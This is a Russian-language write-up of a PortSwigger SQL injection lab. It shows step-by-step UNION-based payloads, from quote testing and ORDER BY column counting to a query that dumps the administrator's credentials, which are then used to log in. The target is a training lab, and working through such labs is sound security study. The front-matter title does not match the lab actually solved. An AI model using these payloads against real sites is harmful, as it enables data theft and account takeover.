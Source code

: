 ```yaml
---
title: "SQL injection UNION attack, finding a column containing text"
date: 2025-06-19
tags: [sql, writeup]
---
```


**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)


## Scope

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


## Solution

Известно, что уязвимость находится в фильтре категорий, поэтому сразу возьму его.

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/filter?category=Pets
```

Нужно подобрать обрамление. Пусть запрос выглядит следующим образом:

```SQL
SELECT * FROM table WHERE category = 'Pets'
```

Протестирую пейлоад:

```
Pets' and 0=1-- -
```

![IMG](/assets/images/IMG_SQLinjection-UNION-attack-retrieving-data-from-other-tables/1.png){: height="200" .align-center}

Страница пустая, значит для обрамления используются одинарные кавычки. Теперь узнаю количество полей в запросе с помощью `ORDER BY`:

```
Pets' ORDER BY 10-- -Error
Pets' ORDER BY 5-- -Error
Pets' ORDER BY 3-- -Error
Pets' ORDER BY 2-- -Ok
```

Значит в запросе 2 параметра. Использую `UNION`, чтобы отобразить данные:

```
Pets' and false UNION SELECT NULL, NULL-- -Ok
Pets' and false UNION SELECT 1, 2-- -Error
Pets' and false UNION SELECT '1', '2'-- -Ok
```

Теперь попробую добавить поля `username` и `password`:

```
Pets' and false UNION SELECT username, password FROM users WHERE username = 'administrator'-- -ok
```

![IMG](/assets/images/IMG_SQLinjection-UNION-attack-retrieving-data-from-other-tables/2.png){: height="200" .align-center}

Получил креды: `administrator`:`5j1o1b7ls5ltyvanoo42`. Зайду в аккаунт: 

![IMG](/assets/images/IMG_SQLinjection-UNION-attack-retrieving-data-from-other-tables/3.png){: height="200" .align-center}

Ну, все. Я получил власть...